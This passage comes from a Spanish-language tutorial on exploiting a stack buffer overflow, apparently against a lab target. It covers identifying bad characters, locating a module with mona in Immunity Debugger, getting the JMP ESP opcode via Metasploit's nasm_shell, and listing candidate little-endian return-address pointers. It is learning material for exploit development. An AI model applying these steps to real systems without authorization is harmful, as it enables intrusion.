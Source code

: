 ### Importancia de la Identificación Precisa

Es fundamental identificar correctamente todos los caracteres malos. Omitir un carácter malo puede llevar a que el shellcode no se ejecute correctamente, resultando en frustración y pérdida de tiempo al intentar diagnosticar el problema. Una vez que se tiene la lista completa de caracteres malos, se debe excluir cada uno de ellos al generar el shellcode.

### Próximos Pasos

Después de identificar todos los caracteres malos, el siguiente paso será **encontrar el módulo adecuado** en la memoria para la ejecución del shellcode y, posteriormente, generar el shellcode final para completar el ataque de desbordamiento de búfer.

Este proceso asegura que el shellcode se ejecute sin interrupciones ni errores causados por caracteres conflictivos.

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#008f11">10. Buscando el módulo vulnerable.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />

- En este caso, vamos a ayudarnos del `mona` modules.
- Colocar el archivo `mona.py` en `C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands`:
- En el Immunity Debugger, ejecutar `!mona modules` en el prompt de comandos.

![alt text](/assets/images/mona-modules.png)

- En Kali, vamos a ejecutar

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
```

- Vamos a buscar la instrucción `JMP ESP` en `mona` modules.

![alt text](/assets/images/return-addresses.png)

```bash
#pointers in little endian format                                 
pointer= "\xaf\x11\x50\x62"    #625011af
pointer= "\xbb\x11\x50\x62"    #625011bb       
pointer= "\xc7\x11\x50\x62"    #625011c7       
pointer= "\xd3\x11\x50\x62"    #625011d3       
pointer= "\xdf\x11\x50\x62"    #625011df       
pointer= "\xeb\x11\x50\x62"    #625011eb       
pointer= "\xf7\x11\x50\x62"    #625011f7       
pointer= "\x03\x12\x50\x62"    #62501203       
pointer= "\x05\x12\x50\x62"    #62501205       
```
